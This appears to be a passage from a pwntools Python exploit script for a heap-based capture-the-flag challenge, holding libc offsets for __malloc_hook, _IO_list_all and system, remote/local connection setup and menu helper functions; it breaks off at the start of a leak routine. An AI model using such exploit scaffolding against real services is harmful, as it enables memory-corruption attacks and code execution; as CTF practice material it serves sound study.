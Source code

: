```python
libc = ELF(LIBC)

addrs = {
    'mainarena': 0x3c4b78,
    'mallochook': libc.symbols['__malloc_hook'],
    'stdin': 0x3c48e0,
    'iolistall': 0x3c5520,
    'system': libc.symbols['system']
}


if os.environ.has_key('remote'):
    r = remote(HOST, PORT)
else:
    e = ELF(BIN)
    r = process(e.path)

if os.environ.has_key('debug'):
    gdb.attach(r, gdbscript=GDBSCRIPT)

def optalloc():
    r.recvuntil(PROMPT)
    r.sendline(ALLOC)
    if 'FULL' in r.recvline():
        print('ALLOC FAILED')


def optedit(idx, magic, content, l=True):
    r.recvuntil(PROMPT)
    r.sendline(EDIT)
    r.recvuntil('Index : ')
    r.sendline(str(idx))
    r.recvuntil('Magic : ')
    r.sendline(str(magic))
    r.recvuntil('Content : ')
    if l:
        r.sendline(content)
    else:
        r.send(content)

def optremove(idx):
    r.recvuntil(PROMPT)
    r.sendline(REMOVE)
    r.recvuntil('Index : ')
    r.sendline(str(idx))

def optshow(idx):
    r.recvuntil(PROMPT)
    r.sendline(SHOW)    
    r.recvuntil('Index : ')
    r.sendline(str(idx))
    data = r.recvuntil('\nMENU').split('\n')[:2]
    magic = int(data[0].split('Magic : ')[1])
    content = data[1].split('Content : ')[1].ljust(8, '\x00')
    content = u64(content)
    return (magic, content)

def optexit():
    r.recvuntil(PROMPT)
    r.sendline(EXIT)

def leak():
    optalloc()  # 0
```